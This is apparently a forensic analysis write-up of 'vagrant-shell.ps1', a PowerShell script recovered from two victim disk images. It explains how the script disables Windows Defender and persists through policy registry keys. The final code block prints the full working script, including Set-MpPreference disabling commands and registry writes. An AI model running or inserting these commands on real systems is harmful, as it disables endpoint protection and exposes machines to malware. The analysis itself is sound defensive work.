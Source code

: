 ## `vagrant-shell.ps1` 

located 
```bash
victim_02.disk.raw - Partition 4 (Microsoft NTFS, 59.4 GB) Windows\tmp\vagrant-shell.ps1
victim_01.disk.raw - Partition 4 (Microsoft NTFS, 59.4 GB) Windows\tmp\vagrant-shell.ps1
```


The content of the `vagrant-shell.ps1` script you retrieved confirms that it is designed to **disable critical Windows Defender features**. This script systematically disables various security mechanisms of Windows Defender, including:

### Key Points from the Script:

1. **Disabling Real-Time Monitoring and Protection**:
   - **Set-MpPreference** commands disable real-time scanning, behavior monitoring, IOAV protection, email scanning, and archive scanning.
   - These settings are essential for the real-time detection and prevention of malware.

2. **Modifications to Windows Defender Settings via the Registry**:
   - The script ensures that these settings persist across reboots by writing values directly into the registry under **HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender**.
   - This registry-based persistence ensures that even if Windows Defender tries to reset itself, these policies will block its critical features from re-enabling.

3. **Disabling Scanning of Network and Mapped Drives**:
   - These commands prevent Defender from scanning network files and mapped drives, creating a blind spot where malware could reside undetected.

4. **Disabling Windows Defender’s ability to submit samples**:
   - Disabling sample submissions to Microsoft means that if a new malware strain is detected, it will not be sent for further analysis or blacklisting.

5. **Persistence and Registry Manipulation**:
   - The script ensures the above configurations persist by checking if the registry path exists and creating it if necessary. This step makes it harder for an admin to re-enable these settings without deep investigation and corrective actions.

### Malicious Intent:

- **Disabling Security Protections**: The sole purpose of this script is to cripple Windows Defender, preventing it from detecting or blocking malicious activities.
- **Persistence through Registry**: The script’s use of registry changes ensures that these disabling settings remain active, even after reboots or other typical recovery attempts.
- **Execution via PowerShell**: This script being repeatedly run with **ExecutionPolicy Bypass** makes it clear that the attacker is overriding default security controls to execute this script without interruptions.

```powershell
# Disable Windows Defender features in real time
Set-MpPreference -MAPSReporting 0
Set-MpPreference -SubmitSamplesConsent 2
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableBehaviorMonitoring $True
Set-MpPreference -DisableIntrusionPreventionSystem $True
Set-MpPreference -DisableIOAVProtection $True
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableScriptScanning $True
Set-MpPreference -DisableArchiveScanning $True
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True
Set-MpPreference -DisableEmailScanning $True
Set-MpPreference -DisableRemovableDriveScanning $True
Set-MpPreference -DisableRestorePoint $True
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $True
Set-MpPreference -DisableScanningNetworkFiles $True
Set-MpPreference -DisableBlockAtFirstSeen $True


# Persist Windows Defender features settings in registry
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}
New-ItemProperty -Path $path -Name "DisableAntiSpyware" -PropertyType DWord -Value 1 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "SubmitSamplesConsent" -PropertyType DWord -Value 2 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "DisableRealtimeMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableBehaviorMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableOnAccessProtection" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableScanOnRealtimeEnable" -PropertyType DWord -Value 1 -Force
```
